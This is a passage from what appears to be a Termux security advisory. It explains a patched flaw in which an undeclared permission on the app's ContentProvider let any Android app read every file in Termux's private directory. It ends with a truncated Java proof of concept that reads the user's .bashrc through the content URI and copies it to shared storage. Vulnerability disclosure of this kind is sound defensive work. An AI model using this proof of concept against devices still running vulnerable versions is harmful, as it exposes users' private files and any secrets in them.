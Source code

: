 Check `Termux:Widget` [`README`](https://github.com/termux/termux-widget#setup-instructions) for more details on new design.
##



## 3. Termux Files World Readable

This vulnerability allowed **all files** under `/data/data/com.termux/files` to be readable by **any app**.

The vulnerability existed since [`v0.47`](https://github.com/termux/termux-app/releases/tag/v0.47) (`2017-02-28`) till `<= v0.117` and was fixed in [`v0.118.0`](https://github.com/termux/termux-app/releases/tag/v0.118.0) (`2022-01-08`).

The vulnerability existed in the [termux `ContentProvider` declaration](https://github.com/termux/termux-app/blob/v0.117/app/src/main/AndroidManifest.xml#L171) since it had set `android.permission.permRead` as [`readPermission`](https://developer.android.com/guide/topics/manifest/provider-element). Basically, termux [passes](https://github.com/termux/termux-app/blob/v0.117/app/src/main/java/com/termux/app/TermuxOpenReceiver.java#L77) the [`FLAG_GRANT_READ_URI_PERMISSION` flag](https://developer.android.com/guide/topics/providers/content-provider-basics#getting-access-with-temporary-permissions) when user requests to open a file with another app, like with `termux-open`, so the target app doesn't need to have the `android.permission.permRead` permission to be able to read the file, which also requires `grantUriPermissions="true"` in the `provider` element. However, if some app has the permission, it can **read** any files under `files` directory as [set by termux `TermuxOpenReceiver$ContentProvider.openFile()`](https://github.com/termux/termux-app/blob/v0.117/app/src/main/java/com/termux/app/TermuxOpenReceiver.java#L177).

Issue was that termux did not declare/publish the  `android.permission.permRead` permission, like it does the `com.termux.permission.RUN_COMMAND` custom permission. It's a dummy permission, likely copied from some tutorial or stackoverflow answer when the `ContentProvider` was added, since internet searches reveal various random results from different sites for it. It was meant to be replaced with a custom permission published by the app, but it was not. That resulted in **any app** to just publish the permission in its own `AndroidManifest.xml` and grant itself the permission with `uses-permission` entry and then be able to **read** any files under `files` directory.

Note that other apps could only **read** the files, but not **write** to them since `TermuxOpenReceiver$ContentProvider.openFile()` returned the `ParcelFileDescriptor.MODE_READ_ONLY` file mode, so writing was not possible and caller would get `java.io.IOException: write failed: EBADF (Bad file descriptor)` errors if it tried to write, There was also no `writePermission` set in the `provider` element. This at least prevented arbitrary code execution and privilege escalation, which obviously would have been much worse for some cases.

### 3. Proof Of Concept

The following POC reads the `/data/data/com.termux/files/home/.bashrc` and writes it to `/sdcard/bashrc.txt`.

```java
private void runTermuxContentProviderReadCommand(Context context) {
    Uri uri = Uri.parse("content://com.termux.files/data/data/com.termux/files/home/.bashrc");
    //Uri uri = Uri.parse("content://com.termux.files/data/data/com.termux/files/usr/bin/login");
    InputStream inputStream = null;
    FileOutputStream fileOutputStream = null;

    try {
        inputStream = context.getContentResolver().openInputStream(uri);
        File outFile = new File(Environment.getExternalStorageDirectory(), "bashrc.txt");
        fileOutputStream = new FileOutputStream(outFile);
        byte[] buffer = new byte[4096];
        int readBytes;
        while ((readBytes = inputStream.read(buffer)) > 0) {
            Log.d(LOG_TAG, "data: " + new String(buffer, 0, readBytes, Charset.defaultCharset()));
            fileOutputStream.write(buffer, 0, readBytes);
        }
    } catch (Exception e) {
        e.printStackTrace();
```